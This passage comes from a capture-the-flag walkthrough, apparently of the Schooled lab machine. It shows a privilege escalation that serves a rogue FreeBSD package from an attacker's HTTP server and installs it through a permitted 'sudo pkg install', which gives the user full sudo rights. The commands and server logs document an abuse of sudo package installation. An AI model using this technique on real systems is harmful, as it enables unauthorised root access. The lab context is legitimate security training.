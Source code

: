 ```

oxdf@parrot$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [06/Apr/2021 09:03:28] "GET /packages/meta.conf HTTP/1.1" 200 -
10.10.10.234 - - [06/Apr/2021 09:03:28] "GET /packages/packagesite.txz HTTP/1.1" 200 -

```

Next I’ll install my package:

```

jamie@Schooled:/var/tmp/.0xdf $ sudo pkg install 0xdf 
Updating FreeBSD repository catalogue...
Fetching meta.conf: 100%    163 B   0.2kB/s    00:01    
FreeBSD repository is up to date.
All repositories are up to date.
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        0xdf: 1.0_5

Number of packages to be installed: 1

572 B to be downloaded.

Proceed with this action? [y/N]: Y
[1/1] Fetching 0xdf-1.0_5.txz: 100%    572 B   0.6kB/s    00:01    
Checking integrity... done (0 conflicting)
[1/1] Installing 0xdf-1.0_5...
[1/1] Extracting 0xdf-1.0_5: 100%

```

All looks good there. At the webserver, it requests `meta.conf` and `packagesite.txz` (both of which return 304 Not Modified), and then the package:

```
10.10.10.234 - - [06/Apr/2021 09:04:49] "GET /packages/meta.conf HTTP/1.1" 304 -
10.10.10.234 - - [06/Apr/2021 09:04:49] "GET /packages/packagesite.txz HTTP/1.1" 304 -
10.10.10.234 - - [06/Apr/2021 09:04:54] "GET /packages/0xdf-1.0_5.txz HTTP/1.1" 200 -

```

### Shell

More importantly, it worked:

```

jamie@Schooled:/var/tmp/.0xdf $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
    (ALL) NOPASSWD: ALL

```

